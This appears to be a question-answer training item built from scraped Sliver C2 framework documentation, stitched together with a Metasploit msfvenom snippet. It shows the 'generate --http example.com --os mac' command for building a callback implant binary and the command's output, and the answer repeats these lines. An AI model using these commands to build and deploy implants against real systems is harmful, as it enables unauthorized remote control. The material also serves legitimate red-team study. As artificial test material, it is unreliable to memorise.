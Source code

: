 Context:Sliver implants are compiled with a baked-in (but obfuscated of course) server domain that they will reach back out to. To generate a sliver implant that communicates to a server at `example.com` run the following:  
#### Basic Example  
```
sliver > generate --http example.com --os mac

[*] Generating new darwin/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/WORKING_HACIENDA
#### Setup  
Any `sliver-server` binary can be started as a builder process using [operator configuration files from multiplayer-mode](/docs?name=Multi-player+Mode) from the server you want to connect the builder to, for example:  
```
./sliver-server builder -c operator-multiplayer.cfg
To generate working payloads, you should have a complete comprehension of how things work. `transports`, `launchers`, `listeners` and `payloads` terms have to be understood before starting.
To generate a payload, there are two flags that you must supply (-p and -f):  
* **The -p flag: Specifies what payload to generate**  
To see what payloads are available from Framework, you can do:  
```
./msfvenom -l payloads

 Question: Provide a complete example of using the generate command in Sliver to create a payload. The example should include common parameters and the expected output. Respond with just a few command line. 

 Your response: 
```
sliver > generate --http example.com --os mac
[*] Generating new darwin/amd64 implant binary
[*] Build completed in 00:00:05
[*] Implant saved to /Users/moloch/Desktop/WORKING_HACIENDA
```